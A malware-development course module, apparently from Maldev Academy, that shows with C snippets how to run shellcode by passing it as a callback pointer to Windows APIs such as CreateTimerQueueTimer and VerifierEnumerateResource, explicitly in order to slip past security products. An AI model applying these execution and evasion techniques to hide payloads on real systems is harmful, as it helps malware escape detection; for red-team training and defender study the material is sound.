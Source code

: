 41. Callback Code Execution[**41. Callback Code Execution**](https://maldevacademy.com/modules/41)
=======================================================================

**Callback Code Execution**
---------------------------

### **Introduction**

Callback functions are used to handle events or to perform an action when a condition is met. They are used in a variety of scenarios in the Windows operating system, including event handling, window management, and multithreading. Microsoft's definition of a callback function is as follows:

*A callback function is code within a managed application that helps an unmanaged DLL function complete a task. Calls to a callback function pass indirectly from a managed application, through a DLL function, and back to the managed implementation.*

Several ordinary Windows APIs possess the ability to execute payloads using callbacks. Using them provides a benefit against security solutions since these functions may appear benign and can potentially evade some security solutions.

### **Abusing Callback Functions**

Windows callbacks can be executed using a function pointer. To run the payload, the address of the payload must be passed instead of a valid callback function pointer. Callback Execution can replace the use of the `CreateThread` WinAPI and other thread-related techniques for payload execution. Additionally, there is no need to use the functions correctly by passing the appropriate parameters. The return value or functionality of these functions is not of any concern.

One important point about callback functions is that they only work in the local process address space and cannot be used to perform remote code injection techniques.

### **Sample Callback Functions**

The following functions are all capable of execution callback functions.

[**CreateTimerQueueTimer's**](https://learn.microsoft.com/en-us/windows/win32/api/threadpoollegacyapiset/nf-threadpoollegacyapiset-createtimerqueuetimer)**3rd parameter**


```
BOOL CreateTimerQueueTimer(
  [out]          PHANDLE             phNewTimer,
  [in, optional] HANDLE              TimerQueue,
  [in]           WAITORTIMERCALLBACK Callback,      // here
  [in, optional] PVOID               Parameter,
  [in]           DWORD               DueTime,
  [in]           DWORD               Period,
  [in]           ULONG               Flags
);

```
[**EnumChildWindows's**](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumchildwindows)**2nd parameter**


```
BOOL EnumChildWindows(
  [in, optional] HWND        hWndParent,
  [in]           WNDENUMPROC lpEnumFunc,    // here
  [in]           LPARAM      lParam
);

```
[**EnumUILanguagesW's**](https://learn.microsoft.com/en-us/windows/win32/api/winnls/nf-winnls-enumuilanguagesw)**1st parameter**


```
BOOL EnumUILanguagesW(
  [in] UILANGUAGE_ENUMPROCW lpUILanguageEnumProc,     // here
  [in] DWORD                dwFlags,
  [in] LONG_PTR             lParam
);

```
[**VerifierEnumerateResource's**](https://learn.microsoft.com/en-us/windows/win32/api/avrfsdk/nf-avrfsdk-verifierenumerateresource)**4th parameter**


```
ULONG VerifierEnumerateResource(
  HANDLE                           Process,
  ULONG                            Flags,
  ULONG                            ResourceType,
  AVRF_RESOURCE_ENUMERATE_CALLBACK ResourceCallback,     // here
  PVOID                            EnumerationContext
);

```
The following sections will provide detailed explanations for each of these functions. The payload used in the code samples is stored in the `.text` section of the binary. This allows the shellcode to have the required `RX` memory permissions without having to allocate executable memory using `VirtualAlloc` or other memory allocation functions.

### **Using CreateTimerQueueTimer**

`CreateTimerQueueTimer` creates a new timer and adds it to the specified timer queue. The timer is specified using a callback function that is called when the timer expires. The callback function is executed by the thread that created the timer queue.

The snippet below runs the code located at `Payload` as a callback function.


```
HANDLE hTimer = NULL;

if (!CreateTimerQueueTimer(&hTimer, NULL, (WAITORTIMERCALLBACK)Payload, NULL, NULL, NULL, NULL)){
	printf("[!] CreateTimerQueueTimer Failed With Error : %d \n", GetLastError());
	return -1;
}

```
### **Using EnumChildWindows**

`EnumChildWindows` allows a program to enumerate the child windows of a parent window. It takes a parent window handle as an input and applies a user-defined callback function to each of the child windows, one at a time. The callback function is called for each child window, and it receives the child window handle and a user-defined value as parameters.

The snippet below runs the code located at `Payload` as a callback function.


```
	if (!EnumChildWindows(NULL, (WNDENUMPROC)Payload, NULL)) {
		printf("[!] EnumChildWindows Failed With Error : %d \n", GetLastError());
		return -1;
	}

```
### **Using EnumUILanguagesW**

`EnumUILanguagesW` enumerates the user interface (UI) languages that are installed on the system. It takes a callback function as a parameter and applies the callback function to each UI language, one at a time. Note that any value instead of `MUI_LANGUAGE_NAME` flag still works.

The snippet below runs the code located at `Payload` as a callback function.


```
	if (!EnumUILanguagesW((UILANGUAGE_ENUMPROCW)Payload, MUI_LANGUAGE_NAME, NULL)) {
		printf("[!] EnumUILanguagesW Failed With Error : %d \n", GetLastError());
		return -1;
	}

```
### **Using VerifierEnumerateResource**

`VerifierEnumerateResource` is used to enumerate the resources in a specified module. Resources are data that are stored in a module (such as an executable or a dynamic-link library) and can be accessed by the module or by other modules at runtime. Examples of resources include strings, bitmaps, and dialog box templates.

`VerifierEnumerateResource` is exported from `verifier.dll`, therefore the module must be dynamically loaded using the `LoadLibrary` and `GetProcAddress` WinAPIs to access the function.

Note that if the `ResourceType` parameter is not equal to `AvrfResourceHeapAllocation` then the payload will not be executed. `AvrfResourceHeapAllocation` allows the function to enumerate heap allocation, including heap metadata blocks.


```
	HMODULE hModule = NULL;
	fnVerifierEnumerateResource pVerifierEnumerateResource = NULL;

	hModule = LoadLibraryA("verifier.dll");
	if (hModule == NULL){
		printf("[!] LoadLibraryA Failed With Error : %d \n", GetLastError());
		return -1;
	}

	pVerifierEnumerateResource = GetProcAddress(hModule, "VerifierEnumerateResource");
	if (pVerifierEnumerateResource == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Must set the AvrfResourceHeapAllocation flag to run the payload
	pVerifierEnumerateResource(GetCurrentProcess(), NULL, AvrfResourceHeapAllocation, (AVRF_RESOURCE_ENUMERATE_CALLBACK)Payload, NULL);

```
### **Conclusion**

This module reviewed several callback functions and demonstrated their usage for payload execution. Callback functions are only beneficial when the payload is running in the memory address space of the local process.

Microsoft's documentation page can be searched to discover additional callback functions. Additionally, a [GitHub repository](https://github.com/aahmad097/AlternativeShellcodeExec) was created that contains a list of the most common callback functions.

